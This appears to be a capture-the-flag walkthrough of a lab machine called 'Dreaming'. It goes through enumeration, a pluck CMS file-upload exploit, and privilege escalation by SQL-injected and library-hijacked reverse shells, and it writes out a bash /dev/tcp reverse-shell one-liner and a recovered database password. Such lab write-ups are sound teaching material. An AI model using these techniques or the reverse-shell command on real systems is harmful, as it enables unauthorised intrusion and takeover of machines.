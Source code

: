 # Dreaming
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/c8e34692-faa1-44cf-9ccb-6c5783aa2ab1)


## Enumeration
First things first, let's start enumerating on our target. We shall start with an NMAP scan. I usually do two rounds of NMAP: the first being an aggressive scan to find the open ports and the second narrowing down on these open ports to find more details. Note that this may be okay to do in a CTF (unless stealth is required) but in an actual pentesting engagement, you need to be stealthy to avoid detection by IDS that a company may have in place.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6b02f58c-7d81-460c-9f4d-2c95c654826e)

You immediately find two open ports: 22 and 80. Now let's find more details on those ports.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/fcf7edee-1493-48d0-a044-4c62dd63e345)

You can see the services running on those ports as well as versions and the OS being used. Let's now explore what could be on port 80. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/1448b4f3-073e-42d2-a2b8-8d5f497d100d)

You find this Apache page but let's see if we can find other directories on the site by running a gobuster scan. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/b8fb9c11-1184-45c0-b2c4-cbb32f674cf5)

Let's see what you may find in `/app`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/26c06cef-d60c-48c9-8474-c43fa0266656)

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/9c9a076e-8fb2-4234-8006-1beaa31e2192)

You can click on `admin` and try to login. 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/65208f88-774e-4121-8149-41a68c81d2c0)

Before rushing to bruteforce, you could try common passwords to see if they would work. Surprisingly, **password** works. 

## Initial Foothold

While looking around, you could also check if there are vulnerabilities associated with pluck 4.7.13 on exploitdb. The search brings up a File Upload Remote Code Execution exploit. Going through this particular exploit reveals that the final file uploaded is a .phar file so remember to save your exploit as such. Download a php reverse shell from pentestmonkey and add the listening port and IP arguments and then change the extension to .phar. In the `Manage Files` option in the drop-down menu that appears when you point to `Pages`, you will find a section to upload your exploit. Before you do so, ensure that netcat is running with listening port indicated. Upload the .phar file and then click on it in the file section to give you a shell. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/5cce0e37-fee4-404b-bacf-e53c5ccd0351)

Now, let's stabliize this shell by running the commands;

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm;ctrl+Z`

`stty raw -echo;fg`

The first line spawns a better featured bash shell, the second line gives access to term commands such as 'clear' and then backgrounds the shell (ensure you actually press ctrl and Z together) and the final line turns off terminal echo and then foregrounds the shell. 

Now you have a stable shell. You can check how many users are on the computer by listing the names in the home directory and we see that we have `death`, `lucien` and `morpheus`. The first flag you are being asked for in lucien's so let's try and get the flag. Lucien's flag is in his home directory but you do not have access to it so you need to log in to his account. On looking around in the `opt` directory, you find Lucien's password in plain text in the `test.py` file. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6b9f308f-776c-46d4-95d3-327dec152d69)

Use this password to switch user to lucien. And just like that, we're in! Now you can read the contents of lucien's flag text document. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/aa734ab6-e2a1-49c7-bafc-b886089f169f)

## Lateral Movement
Now that you have been successful in logging in as one of the users, you need to move laterally to get the flags of the other users. Let's try and get into `death`'s account first. Running `sudo -l` reveals that the user lucien can run `getDreams.py` using python3 as the user death. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8b9d3b97-9f5b-45a7-a661-dc6d3b76db65)

`getDreams.py` is in death's home directory but you (as the user lucien) do not have access it. However, `getDreams.py` also exists in `/opt` and you can assume that this is a copy of the same file in death's home directory. Opening the file in `/opt` shows that it is a script that connects to the mysql database and finds and prints information (dreamer and dream) from `dreams` table. Below is a snippet of it. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/22920cb6-054b-45d8-9219-445ba1c7d7b4)

Now, you can input a command in the table so that running the sudo command will give you a shell as death. But in order to do this, you need to have credentials to the database. The password is redacted in the script but, luckily, you can obtain it from reading the contents of the `.bash_history` file. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8fbaf5a9-272f-479e-8c04-3fb04e11bdd6)

You'll find that the password is **lucien42DBPASSWORD**. Now you can use this to login to the database and insert a new entry that includes a reverse shell. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d5cfb992-d08c-45b9-8121-80017721510d)


Now run the sudo command and this will give you a shell. Stabilize the shell as earlier described. 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/a72c16b7-7a52-493c-b80e-651033ea54c0)


And you find that death's flag is;

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/bc3bc615-31e0-4101-bd00-3d03921451cb)

Now let's try and find a way into Morpheus' account. Since Morpheus cannot run any sudo commands, you should look for files that he can write to using the command;
`find / -type f -writable 2>/dev/null|grep -v proc|grep -v sys| grep -v run|grep -v .local|grep -v .cache`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/314d69d2-8858-443d-8457-8a71bdd5ac5b)

The result of interest is `/usr/lib/python3.8/shutil.py`
It means we can write to the shutil python library. Looking into Morpheus' home directory, you'll see `restore.py` and from its contents, it uses the shutil library. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d148d3ec-0236-4e14-9563-3b4d4b1cdf9e)

You can overwrite what is in the library with a reverse shell and then run it using the command;
`echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[YourIP]/[Listeningport] 0>&1'\")" > /usr/lib/python3.8/shutil.py`
Now, just set up the listener and wait for the script to run and give you a shell. Once it does, you can get the last flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/e5dbf0a0-0a3a-48cf-8d7a-b18bccf6fc24)

Note that once you get a shell into Death's account, you can open `getDreams.py` which has the unredacted password. This password also happens to be Death's ssh password and you can ssh into his account and have a better shell than a netcat shell. 

